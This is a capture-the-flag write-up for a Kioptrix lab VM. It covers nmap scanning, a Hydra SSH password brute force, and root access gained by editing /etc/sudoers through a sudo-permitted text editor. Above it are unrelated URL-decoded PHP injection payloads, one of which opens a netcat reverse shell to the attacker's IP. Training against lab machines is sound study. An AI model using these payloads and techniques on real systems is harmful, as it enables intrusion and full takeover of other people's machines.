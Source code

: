 https://secuniaresearch.flexerasoftware.com//secunia_research/2011-21/
%27%29%3B%24%7Bprint%28%27test%27%29%7D%3B%23 -> ');${print('test')};#
%27%29%3B%24%7Bsystem%28%27nc%20-e%20%2fbin%2fsh%2010.0.2.5%204444%27%29%7D%3B%23%22 -> ');${system('nc -e /bin/sh 10.0.2.5 4444')};#"

# Kioptrix 1.1 Writeup

This vulnerable virtual machine was obtained from [VulnHub](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/ "URL for kioptrix 1.1"). The kioptrix series are intended for use with VMWare, but by following the instructions found [here](http://hypn.za.net/blog/2017/07/15/running-kioptrix-level-1-and-others-in-virtualbox/ "running kioptrix in VirtualBox"), you can get the virtual machines to work with VirtualBox.

## Information gathering

After booting up the attacker and vulnerable virtual machines, we can use the `ifconfig` and `netdiscover` commands to find the IP address of both of them. Running `ifconfig` will get us the IP address of the attacker machine, and from that, we can scan the local subnet with `nmap -sn 10.0.2.0/24` to find the IP address of the vulnerable machine. We scan the local subnet because we know that VirtualBox assigns IPs in that subnet, but the command can be changed to be `/12` or something else depending on the range you wish to scan. The arguments to the `nmap` command specify that an host discovery scan that skips the port scan phase should be used, and that the range to scan should be the IP addresses included in the `10.0.2.0/24` subnet, which are `10.0.2.1 - 10.0.2.254`.

![](images/ifconfig.png "ifconfig shows us that our attacker's IP address is 10.0.2.5")

![](images/pingscan.png "nmap -sn 10.0.2.0/24 shows us that there are four possible IP addresses for our target")

`nmap` presents us with four possible IP addresses for our target machine, and now we must narrow down the specific one that we will be exploiting. Since we know that our target is running as virtual machine on VirtualBox, that narrows the options down to `10.0.2.3` and `10.0.2.7`, because nmap identifies them as VirtualBox virtual machines. Knowing that VirtualBox uses `10.0.2.3` as a nameserver, we can tell that `10.0.2.7` is the target.

## Scanning

Now that we know what our target is, we will enumerate the ports that are open to try to see if any of them have vulnerable services running. The tool we'll use for that is `nmap`. Running `nmap -sV 10.0.2.7` will tell us the specific versions of the services running on the TCP ports, if possible, as compared to a normal `nmap 10.0.2.7`, which will just tell us the services that are running.

![](images/nmap.png "nmap -sV 10.0.2.7 shows us which services are running on the machine")

We can see that the target has several ports open, and we'll run down the list to try to see which ones we can exploit.

## Gaining Access

Using the `searchsploit` command, we can look for exploits that the target could be vulnerable to. Running `searchsploit openssh` shows us all of the exploits available for OpenSSH from [exploit-db](https://www.exploit-db.com/ "exploit-db"), but unfortunately, none of them are of interest to us. We're looking for something that can give us remote code execution, and the only one found that does that is for OpenSSH 3.5p1, while the version on the target is more recent than that.

![](images/openssh.png "searchsploit openssh shows us the available exploits for OpenSSH")

Because we didn't have any luck with port 22, we'll move on to considering the next one on the list, port 80. Since http is running on this port, we can try to navigate to the IP address in a web browser and see what we can find. Loading up `http://10.0.2.7` in Firefox gives us a webpage for Ligoat Security, with a few tabs for "Home", "Blog", and "Login.

![](images/front.png "http://10.0.2.7 loaded in Firefox")

Going to the "Blog" section shows two blog entries, one of which caught my eye. The "New Lead Programmer" entry gives us the username for their new lead programmer, "loneferret", which is something that we can leverage to gain access to their systems.

![](images/blog.png "Blog entries for Ligoat")

We can use THC-Hydra to try a dictionary attack on the "loneferret" user's SSH password. To properly use a dictionary attack, we need a file with possible passwords that Hydra can try to log in with. I used [this file](https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/darkweb2017-top10000.txt "wordlist I used with THC-Hydra"), which includes 10,000 common passwords. Running the command `hydra -t 4 -l loneferret -P /usr/share/wordlists/top-10000.txt 10.0.2.7 ssh` will start Hydra with four tasks, meaning that there will be a maximum of 4 tries going on at once, using the login "loneferret" and wordlist that I downloaded, targeting the IP address `10.0.2.7` through the SSH service. As Hydra needs to try many passwords, it's typical that it will take a while to run.

![](images/hydra.png "result of THC-Hydra's dictionary attack")

Once Hydra finds a valid password, it will stop running and print out the result. In this case, it looks like the password for the "loneferret" user is "starwars". Now we can log in to the victim through the command `ssh loneferret@10.0.2.7` and entering the password when prompted.

![](images/login.png "logging in to the loneferret account")

## Elevating Access

Once we're logged in, we can use the `ls` command to list all the contents of the current directory. We see that there's a file called "CompanyPolicy.README", which we can read with `cat CompanyPolicy.README`. In it, we find out that the "loneferret" account has access to the "sudo ht" command. If they're able to use `sudo` on this command, let's see if they can use it on any other one. Trying to execute `sudo su root` or `sudo /bin/bash` ends up with an error that the user is not allowed to execute the given command as root, showing that they can only execute `ht` as root.

![](images/sudo.png "Trying out sudo commands")

Let's see what `ht` is. In my case, trying to run it with `sudo ht` gave me an error that stated "Error opening terminal: xterm-256color." I fixed this issue by using the command `export TERM=xterm`, which changes the text window's capabilities to support 8 colors, instead of 256. With the error fixed and the command running, we can see that `ht` is used as a text editor.

![](images/ht.png "Opening ht")

Since we run `ht` with `sudo`, this means that `ht` is running as the root user, allowing us to modify privileged system files. One file of interest to us would be /etc/sudoers, as this is the file where limits on the `sudo` command would be kept, and now, we can use `sudo ht -t /etc/sudoers` to open and edit the file.

![](images/sudoers.png "Opening /etc/sudoers in ht")

We can see that loneferret is only allowed to use the `sudo` command with /usr/local/bin/ht, and that they're locked out of using /usr/bin/su. We can modify this so that we can use /bin/bash with `sudo` by adding ", /bin/bash" to the loneferret line, and so that we can use the `su` command by deleting the exclamation mark in front of it.

![](images/bash.png "/etc/sudoers after the change")

Saving the changes with `F2` and quitting with `CTRL+C`, we can now try to use the `sudo /bin/bash` command to get a shell as root again, and this time, it works!

![](images/root.png "Getting a root shell")
